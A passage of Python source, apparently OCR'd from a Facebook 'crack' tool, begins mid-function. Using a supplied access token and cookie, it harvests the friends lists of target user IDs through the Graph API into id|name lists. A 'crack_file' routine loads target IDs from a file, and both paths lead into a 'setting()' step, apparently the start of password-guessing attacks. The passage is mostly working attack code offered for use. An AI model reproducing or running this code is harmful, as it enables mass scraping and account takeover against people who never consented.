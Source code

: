 		back()
	if jum<1 or jum>100000000:
		
		back()
	ses=requests.Session()
	yz = 0
	for met in range(jum):
		yz+=1
		kl = input(' [] INPUT ID '+str(yz)+': ')
		uid.append(kl)
	for userr in uid:
		try:
			col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
			for mi in col['friends']['data']:
				try:
					iso = (mi['id']+'|'+mi['name'])
					if iso in id:pass
					else:id.append(iso)
				except:continue
		except (KeyError,IOError):
			pass
		except requests.exceptions.ConnectionError:
			print('#TRY AGAIN ')
			os.system('clear')
	try:
		print(f' [] TOTAL ID: {P}'+str(len(id)))
		print('')
		setting()
	except requests.exceptions.ConnectionError:
		print(f'{u}')
		back()
	except (KeyError,IOError):
		print(f'IF ID IS PUBLIC THEN TRY AGAIN WITH NEW COOKIE OTHRWISE CHECK YOUR ID LINK ')
		time.sleep(3)
		back()
		
def crack_file():
	os.system('clear')
	banner()
	#print(logo)
	os.system('espeak -a 300 " your file name"')
	print('\033[1;32m[ Put File Example:  /sdcard/...!..]')
	o = input('\x1b[1;97m [+] INPut FILE NAME : ')
	print('')
	try:lin = open(o).read().splitlines()
	except:
		print('File Not Found')
		time.sleep(2)
		back()
	for xid in lin:
		id.append(xid)
	setting()
	